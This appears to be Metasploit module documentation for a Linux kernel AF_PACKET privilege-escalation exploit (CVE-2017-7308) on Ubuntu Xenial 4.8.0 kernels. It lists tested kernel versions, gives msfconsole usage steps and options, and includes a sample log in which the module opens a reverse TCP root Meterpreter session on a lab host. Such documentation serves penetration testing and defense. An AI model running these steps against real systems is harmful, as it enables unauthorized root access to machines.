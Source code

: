## Description

  This module exploits a heap-out-of-bounds write in the `packet_set_ring`
  function in `net/packet/af_packet.c` (`AF_PACKET`) in the Linux kernel
  to execute code as `root` (CVE-2017-7308).

  The bug was initially introduced in 2011 and patched in version 4.10.6,
  potentially affecting a large number of kernels; however this exploit
  targets only systems using Ubuntu Xenial kernels 4.8.0 < 4.8.0-46,
  including Linux distros based on Ubuntu Xenial, such as Linux Mint.

  The target system must have unprivileged user namespaces enabled and
  two or more CPU cores.

  Bypasses for SMEP, SMAP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on Linux Mint 18 (x86_64)
  with kernel versions:

  * 4.8.0-34-generic
  * 4.8.0-36-generic
  * 4.8.0-39-generic
  * 4.8.0-41-generic
  * 4.8.0-42-generic
  * 4.8.0-44-generic
  * 4.8.0-45-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use af_packet_packet_set_ring_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf > use exploit/linux/local/af_packet_packet_set_ring_priv_esc 
  msf exploit(linux/local/af_packet_packet_set_ring_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/af_packet_packet_set_ring_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ZxgWSP2O1.c' (19378 bytes) ...
  [*] Writing '/tmp/.jfPl4uPX2' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.207
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.207:41882) at 2018-04-27 19:55:21 -0400
  [+] Deleted /tmp/.ZxgWSP2O1.c
  [+] Deleted /tmp/.ZxgWSP2O1
  [+] Deleted /tmp/.jfPl4uPX2
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.207
  OS           : LinuxMint 18 (Linux 4.8.0-45-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

